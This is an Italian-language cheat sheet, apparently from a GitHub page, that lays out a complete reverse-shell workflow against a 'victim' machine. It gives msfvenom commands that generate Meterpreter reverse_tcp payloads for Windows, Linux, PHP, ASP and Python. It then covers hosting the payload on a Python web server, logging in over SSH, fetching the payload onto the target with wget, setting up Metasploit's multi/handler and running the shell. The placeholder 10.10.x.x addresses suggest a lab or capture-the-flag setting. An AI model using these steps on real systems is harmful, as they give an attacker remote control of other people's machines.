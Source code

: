 ### Creazione payload

- Windows: **msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=XXXX -f exe > rev_shell.exe**
- Linux**: msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf**
- PHP: **msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=XXXX -f raw > rev_shell.php**
- ASP: **msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=XXXX -f asp > rev_shell.asp**
- Python: **msfvenom -p cmd/meterpreter/reverse_python LHOST=10.10.x.x LPORT=XXXX -f raw > rev_shell.py**

### Creazione server condivisione file Python

- **python3 -m http.server 9000** creazione python web server per trasferire la shell

![image](https://github.com/user-attachments/assets/a8c8bb47-c71e-4f0b-b30c-3cf05d7b1f4a)

### Accesso con credenziali ssh

- **ssh username@targetIP**
    - inserire password

### Caricamento del payload sulla macchina vittima

- **wget http://MIO_IP:porta/FILE_SHELL**
- **chmod +x FILE_SHELL** Cambio di permessi sul payload

![image](https://github.com/user-attachments/assets/9f947c94-93d1-4442-b715-f555c3cc3677)

### MSFCONSOLE

- **use exploit/multi/handler** è il modulo in ascolto sulla macchina attaccante per funzionare come handler (per catturare la shell).
    - set lhost, lport and run

### RUN THE SHELL

- **./rev_shell.elf**  avviarlo nella sessione della vittima


